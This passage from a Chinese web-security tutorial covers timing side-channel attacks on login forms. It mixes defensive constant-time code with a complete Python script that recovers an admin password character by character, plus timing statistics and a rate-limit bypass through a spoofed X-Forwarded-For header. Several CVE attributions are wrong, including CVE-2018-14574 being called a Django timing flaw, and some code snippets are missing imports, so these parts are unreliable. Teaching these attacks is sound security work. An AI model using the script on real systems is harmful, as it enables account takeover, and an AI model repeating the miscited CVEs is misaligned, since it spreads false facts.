> ```
> 确保应用服务器只信任反向代理设置的头，不接受客户端伪造的头。

#### 7.6.2 通用防御措施对比

| 防御措施 | 原理 | 对时间侧信道的有效性 | 实施难度 | 副作用 |
|---------|------|--------------------|---------|-------|
| **恒定时间比较** | 无论输入如何，执行时间恒定 | ★★★★★ 最有效 | 低（调用标准库） | 无 |
| **统一的错误信息** | 无论用户名是否存在，返回相同错误 | ★★★☆☆ 解决信息泄露 | 低 | 无 |
| **随机延时注入** | 在响应中加入随机延迟（如0-500ms） | ★★★★☆ 增加噪声 | 中 | 增加平均响应时间 |
| **速率限制（IP层面）** | 限制每分钟请求数 | ★★☆☆☆ 增加难度但可绕过 | 中 | 可能误封合法用户 |
| **CAPTCHA验证** | 人机验证 | ★★★★★ 彻底阻止自动化 | 高 | 影响用户体验 |
| **账户锁定机制** | 多次失败后临时锁定账户 | ★★★☆☆ 阻止暴力破解 | 中 | 拒绝服务风险（锁死合法用户） |
| **智能WAF规则** | 检测异常请求模式 | ★★★★☆ 自适应防护 | 高 | 维护成本高 |
| **统一响应时间** | 所有认证请求至少等待固定时间再返回 | ★★★☆☆ 增加基线延迟 | 低 | 降低合法用户响应速度 |

**推荐的多层防御组合**：

```text
第1层（必须）：恒定时间比较 + 统一错误信息
    ↓
第2层（推荐）：速率限制（反向代理层） + 账户锁定
    ↓
第3层（增强）：智能WAF + CAPTCHA（多次失败后触发）
```

#### 7.6.3 推荐的安全实现方案

**PHP**：
```php
// 方案1：使用hash_equals进行恒定时间比较
if (hash_equals($stored_hash, hash('sha256', $input_password))) {
    // 密码匹配
    return login_success($user);
} else {
    // 密码不匹配，随机延迟后返回统一错误
    usleep(random_int(50000, 150000));  // 50-150ms随机延迟
    return "Invalid username or password.";
}

// 方案2：使用password_verify（推荐，内置恒定时间比较）
if (password_verify($input_password, $stored_hash)) {
    return login_success($user);
}
```

**Java**：
```java
// 使用MessageDigest.isEqual进行恒定时间比较
import java.security.MessageDigest;
import java.security.SecureRandom;

public boolean verifyPassword(char[] input, byte[] storedHash) {
    byte[] inputHash = MessageDigest.getInstance("SHA-256")
        .digest(new String(input).getBytes());
    
    boolean match = MessageDigest.isEqual(inputHash, storedHash);
    
    // 清除密码数组（安全最佳实践）
    Arrays.fill(input, '\0');
    
    return match;
}
```

**Node.js**：
```javascript
const crypto = require('crypto');

function verifyPassword(input, storedHashHex) {
    const inputHash = crypto.createHash('sha256').update(input).digest();
    const storedHash = Buffer.from(storedHashHex, 'hex');
    
    // 确保长度相同（timingSafeEqual要求长度一致）
    if (inputHash.length !== storedHash.length) {
        return false;
    }
    
    return crypto.timingSafeEqual(inputHash, storedHash);
}
```

**Python（Django）**：
```python
# Django的认证系统内部已使用hmac.compare_digest
from django.contrib.auth import authenticate

user = authenticate(username=username, password=password)
# Django源码 (django/contrib/auth/backends.py):
#   if check_password(raw_password, stored_password):
#       ...
# check_password内部使用hmac.compare_digest

# 如果需要自定义验证逻辑：
import hmac
from hashlib import sha256

def verify_password(input_pwd, stored_hash):
    input_hash = sha256(input_pwd.encode()).hexdigest()
    return hmac.compare_digest(input_hash, stored_hash)
```

**Go**：
```go
import "golang.org/x/crypto/argon2"

func verifyPassword(input, stored string) bool {
    // 解析存储的hash
    // ...
    
    // 使用constant-time比较
    if subtle.ConstantTimeCompare(inputHash, storedHash) == 1 {
        return true
    }
    return false
}
```

---

### 7.7 拓展：其他时间侧信道攻击场景

#### 7.7.1 逐字符密码枚举

如果应用使用了非恒定时间的字符串比较函数（如PHP的`==`操作符、JavaScript的`===`、或任何使用`memcmp`的自定义比较），攻击者可以逐字符恢复密码：

```python
#!/usr/bin/env python3
"""
逐字符密码枚举 - 时间侧信道攻击
利用非恒定时间字符串比较恢复密码

原理：
对于使用memcmp的比较函数，如果前N个字符匹配，
memcmp需要比较到第N+1个字符才能发现不匹配。
因此匹配前缀越长，比较时间越长。
"""

import requests
import string
import time
import statistics

TARGET = "https://target.com/login"
USERNAME = "admin"
MAX_LENGTH = 20  # 密码最大尝试长度
CHARSET = string.ascii_lowercase + string.digits + string.ascii_uppercase
SAMPLES_PER_CHAR = 30  # 每个字符采样次数（增加以提高准确性）

def measure_time(session, password_attempt, samples=10):
    """测量带指定密码的请求响应时间"""
    times = []
    for _ in range(samples):
        data = {"username": USERNAME, "password": password_attempt}
        start = time.time()
        try:
            response = session.post(TARGET, data=data, timeout=10)
            times.append((time.time() - start) * 1000)
        except Exception:
            pass
        time.sleep(0.1)
    return statistics.median(times) if times else 0

def find_next_char(session, known_prefix):
    """找到下一个正确的字符"""
    results = []
    
    for char in CHARSET:
        # 构造候选密码：已知前缀 + 当前尝试字符 + 填充
        padding_length = max(1, 10 - len(known_prefix) - 1)
        attempt = known_prefix + char + "x" * padding_length
        
        elapsed = measure_time(session, attempt, samples=SAMPLES_PER_CHAR)
        results.append((char, elapsed))
    
    # 选择响应时间最长的字符（最可能匹配）
    results.sort(key=lambda x: x[1], reverse=True)
    best_char, best_time = results[0]
    second_char, second_time = results[1]
    
    # 计算置信度：最长和次长的差距
    confidence = best_time - second_time
    
    return best_char, best_time, confidence

def brute_force_password():
    session = requests.Session()
    known_prefix = ""
    
    print(f"[*] 目标: {TARGET}")
    print(f"[*] 用户名: {USERNAME}")
    print(f"[*] 字符集大小: {len(CHARSET)}")
    print(f"[*] 每字符采样: {SAMPLES_PER_CHAR} 次")
    print()
    
    for position in range(MAX_LENGTH):
        best_char, best_time, confidence = find_next_char(session, known_prefix)
        
        print(f"  Position {position+1}: '{best_char}' "
              f"(time: {best_time:.1f}ms, confidence: {confidence:.1f}ms) "
              f"→ '{known_prefix + best_char}*'")
        
        if confidence < 5 and position > 0:
            print(f"  [!] 置信度过低（{confidence:.1f}ms），可能已到达密码末尾")
            # 尝试确认：测试已知前缀本身是否匹配
            if measure_time(session, known_prefix, samples=20) > best_time * 0.9:
                print(f"  [+] 密码可能是: {known_prefix}")
                return known_prefix
        
        known_prefix += best_char
    
    return known_prefix

if __name__ == "__main__":
    password = brute_force_password()
    print(f"\n[+] 最终结果: {password}")
```

> **现实案例**：2018年，安全研究人员发现Django框架的登录表单存在时间侧信道漏洞（CVE-2018-14574），通过测量"用户不存在"和"密码错误"的响应时间差异，可以枚举有效用户。类似的漏洞也曾在GitHub（2020年）、Ruby on Rails（2019年）等知名项目中出现过。

#### 7.7.2 API端点时间侧信道

时间侧信道不仅存在于登录页面，以下API端点同样可能存在：

| 端点类型 | 时间差异来源 | 利用方式 |
|---------|------------|---------|
| **密码重置接口** | "邮箱不存在"（直接返回）vs"重置链接已发送"（发邮件耗时） | 枚举注册用户邮箱 |
| **注册接口** | "用户名已存在"（快速检查）vs"注册成功"（创建用户耗时） | 判断用户名是否已被注册 |
| **API Key验证** | 有效Key（完整权限检查）vs无效Key（快速拒绝） | 枚举有效API Key |
| **OTP/验证码验证** | 正确位数越多比较时间越长 | 逐位枚举验证码 |
| **JWT验证** | 签名有效（完整验证）vs签名无效（快速拒绝） | 推断有效JWT |
| **二步验证** | "恢复码有效"（DB查询+Token生成）vs"恢复码无效"（快速拒绝） | 枚举恢复码 |

#### 7.7.3 时间侧信道的统计学增强方法

对于时间差异非常微妙（只有几毫秒）的场景，可以结合以下统计学方法提高准确性：

**方法1：中位数替代均值**

```python
import statistics

def robust_timing_estimate(times):
    """
    使用中位数和MAD（中位数绝对偏差）替代均值和标准差
    对异常值（网络抖动导致的极端值）更鲁棒
    """
    med = statistics.median(times)
    # MAD = median(|x_i - median(x)|)
    mad = statistics.median([abs(t - med) for t in times])
    return med, mad
```

**方法2：多次采样（≥30次）**

根据中心极限定理，当样本量≥30时，样本均值的分布近似正态分布，可以使用参数检验。

```python
def enhanced_measurement(session, username, samples=50):
    """
    增强版测量：50次采样 + 去除异常值 + 置信区间
    """
    times = []
    for _ in range(samples):
        t = measure_single_request(session, username)
        times.append(t)
        time.sleep(0.2)
    
    # 去除最高和最低10%的数据点（trim）
    trimmed = sorted(times)[5:-5]
    
    mean = statistics.mean(trimmed)
    stdev = statistics.stdev(trimmed)
    
    # 95%置信区间
    ci_lower = mean - 1.96 * stdev / (len(trimmed) ** 0.5)
    ci_upper = mean + 1.96 * stdev / (len(trimmed) ** 0.5)
    
    return mean, stdev, ci_lower, ci_upper
```

**方法3：T检验**

使用独立样本T检验判断两组时间数据是否存在显著差异：

```python
import numpy as np
from scipy import stats

def statistically_significant(baseline_times, target_times, alpha=0.05):
    """
    使用独立样本T检验判断目标与基线是否存在显著差异
    返回 (t_statistic, p_value, is_significant)
    """
    t_stat, p_value = stats.ttest_ind(baseline_times, target_times)
    # p < alpha 表示有统计学显著性
    is_significant = p_value < alpha
    
    # 效应量（Cohen's d）
    pooled_std = np.sqrt(
        (np.std(baseline_times)**2 + np.std(target_times)**2) / 2
    )
    cohens_d = (np.mean(target_times) - np.mean(baseline_times)) / pooled_std
    
    return t_stat, p_value, is_significant, cohens_d
```

**统计学方法选择指南**：

| 场景 | 推荐方法 | 原因 |
|------|---------|------|
| 时间差异大（>200ms） | 均值 + 2σ法则 | 差异明显，简单方法即可 |
| 时间差异中等（50-200ms） | 中位数 + 50次采样 | 需要更多样本减少噪声 |
| 时间差异小（<50ms） | T检验 + Cohen's d | 需要严格的统计检验 |
| 网络环境差（高抖动） | MAD + trim + T检验 | 需要鲁棒统计方法 |
| 需要实时判断 | 滑动窗口均值 | 在线算法，无需全部采样 |

---

### 7.8 常见误区与陷阱

#### 误区1：响应长度也可以作为判断依据

**错误认知**："如果用户名存在和不存在时返回的响应页面不同，可以直接通过响应长度区分。"

**纠正**：现代安全实践要求无论用户名是否存在，都返回完全相同的错误信息。在本实验中，所有请求的响应长度完全一致（3124字节），这正是安全设计的体现。如果仅依赖响应长度，攻击将完全失效。

**实际案例**：在早期的Web应用中，登录失败时经常返回不同的错误信息：
- "该用户不存在"（用户名错误）
- "密码不正确"（密码错误）

这种设计不仅存在信息泄露，还使得错误信息侧信道攻击变得极其简单。现代框架（如Django、Rails）默认返回统一的错误信息。

#### 误区2：时间差异越大越容易成功

**错误认知**："只要看到时间差异就能确定有效用户。"

**纠正**：时间差异可能由多种因素引起：
- **网络抖动**：公共互联网的延迟波动可达100ms以上
- **服务器负载**：高峰时段所有请求都会变慢
- **CDN/代理影响**：请求路径不同导致时间差异
- **数据库缓存**：第一次查询慢，后续查询快（冷启动效应）
- **TLS握手**：首次请求包含TLS握手耗时，后续请求复用连接

**正确做法**：多次采样 + 统计检验 + 对照实验（测试一个确定不存在的用户名作为基准）。至少需要20-30次采样才能获得可靠的统计结论。

#### 误区3：X-Forwarded-For万能破解限流

**错误认知**："只要加了X-Forwarded-For头，就能无限发送请求。"

**纠正**：现代Web架构中，反向代理（Nginx、Cloudflare）通常配置为在转发请求时**覆盖**而非追加X-Forwarded-For头。这意味着攻击者伪造的IP会被真实IP覆盖。本实验之所以有效，是因为实验环境的限流机制直接读取了用户控制的X-Forwarded-For头。

**实际环境中可能遇到的情况**：
- Cloudflare/阿里云WAF：完全忽略X-Forwarded-For，使用真实IP
- Nginx `proxy_set_header X-Forwarded-For $remote_addr`：覆盖客户端值
- 反向代理信任链：只信任上一级代理追加的值

#### 误区4：一个快的工具就够了

**错误认知**："Turbo Intruder每秒发送1000个请求，肯定比任何慢速工具好。"

**纠正**：对于时间侧信道攻击，**精度优于速度**。过快的请求会导致：
- **网络连接复用**（Keep-Alive）引入的延迟偏差
- **服务器端连接池竞争**导致的延迟波动
- **更易触发速率限制**和WAF规则
- **TCP拥塞控制**对响应时间的影响

**建议**：控制在每200ms一个请求，使用独立的TCP连接，每次请求后重建连接。宁可慢一点，也要保证测量精度。

#### 误区5：只关注时间侧信道

**错误认知**："这个实验只能用时间侧信道来解决。"

**纠正**：在实际渗透测试中，应该同时尝试多种方法：
- **错误信息侧信道**：检查不同用户名是否返回不同错误信息
- **响应长度分析**：即使长度相同，也检查是否有微小差异
- **状态码分析**：检查不同输入是否导致不同的HTTP状态码
- **重定向分析**：检查登录后是否重定向到不同的页面
- **Cookie差异**：检查返回的Cookie是否有差异

只有确认其他所有侧信道都被封堵后，才需要使用时间侧信道。

---

### 7.9 学习总结与知识体系

#### 7.9.1 知识卡片

| 维度 | 内容 |
|------|------|
| **核心概念** | 时间侧信道攻击、恒定时间比较、用户名枚举、统计学验证 |
| **关键工具** | Burp Suite Intruder / Turbo Intruder / Python requests |
| **关键技术** | 响应时间测量、2σ统计检验、IP伪造绕过、串行请求控制 |
| **防御措施** | hmac.compare_digest、统一错误响应、速率限制、账户锁定 |
| **关联主题** | 错误信息侧信道、暴力破解、认证绕过、API安全、密码学实现安全 |
| **适用场景** | 渗透测试认证评估、Bug Bounty、安全编码审计、CTF竞赛 |

#### 7.9.2 能力进阶路径

完成本实验后，建议按以下路径继续深入：

```text
第一阶段：基础巩固（1-2周）
├─ PortSwigger Academy: Authentication模块其他实验
│   ├─ Username enumeration via response messages
│   ├─ Username enumeration via different responses
│   └─ 2FA bypass using a brute-force attack
├─ 理解OAuth 2.0、JWT、SAML等现代认证协议
└─ 练习使用Burp Suite的Session Handling Rules

第二阶段：深入时间侧信道（2-4周）
├─ 研究恒定时间密码学的数学原理
│   ├─ 阅读Kocher 1996年原始论文
│   └─ 理解恒定时间实现的硬件约束
├─ 学习更高级的时间侧信道攻击
│   ├─ Lucky13攻击（TLS CBC填充验证）
│   ├─ POODLE攻击（SSL 3.0降级）
│   └─缓存侧信道（Flush+Reload、Prime+Probe）
└─ 编写自己的时间测量框架
    ├─ 支持多种统计学方法
    ├─ 自动化基线建立和比较
    └─ 生成可视化报告

第三阶段：防御与开发（3-6周）
├─ 学习安全编码实践（OWASP ASVS v4.0）
├─ 掌握WAF配置和速率限制策略
├─ 理解反向代理安全配置
└─ 参与安全代码审查

第四阶段：实战应用（持续）
├─ 参加Bug Bounty计划寻找真实时间侧信道漏洞
│   ├─ HackerOne、Bugcrowd上的认证相关项目
│   └─ 重点关注金融、医疗类应用
├─ 阅读CVE数据库中的相关漏洞报告
└─ 尝试编写PoC工具并贡献给开源社区
```

#### 7.9.3 关键CVE参考

| CVE编号 | 漏洞描述 | 影响范围 | 修复方案 |
|---------|---------|---------|---------|
| CVE-2018-14574 | Django用户名枚举时间侧信道 | Django < 2.0 | 升级至Django 2.0+ |
| CVE-2019-13377 | Bleichenbacher时间侧信道（RSA） | 多个TLS库 | 更新TLS库 |
| CVE-2020-1472 | Zerologon（Netlogon） | Windows Server | 安全更新 |
| CVE-2021-3449 | OpenSSL拒绝服务（NULL解引用） | OpenSSL 1.1.1 | 更新至1.1.1k+ |

#### 7.9.4 扩展阅读资源

- **官方文档**：PortSwigger Academy - Authentication模块完整教程
- **学术论文**：Kocher, P. "Timing Attacks on Implementations of Diffie-Hellman, RSA, DSS, and Other Systems" (1996)
- **学术论文**：Bernstein, D.J. "Cache-timing attacks on AES" (2005)
- **工具学习**：Burp Suite官方文档 - Intruder和Turbo Intruder使用指南
- **CTF练习**：HackTheBox、TryHackMe中涉及认证绕过的挑战
- **书籍推荐**：《Web渗透测试实战：基于Burp Suite》《白帽子讲Web安全》《密码编码学与网络安全》
- **OWASP资源**：OWASP Testing Guide v4.2 - Authentication Testing章节

---

> **一句话总结**：时间侧信道攻击利用的是"系统诚实但不够谨慎"的特点——它如实反映了不同输入导致的处理时间差异。作为安全研究者，既要学会利用这种差异（攻击视角），也要理解如何消除它（防御视角）。只有同时掌握攻击与防御，才是真正的Web安全专家。在本实验中，从理解时间差异的产生机制，到使用统计学方法确认差异的显著性，再到最终完成密码暴力破解，整个过程体现了渗透测试"发现→验证→利用"的完整方法论。
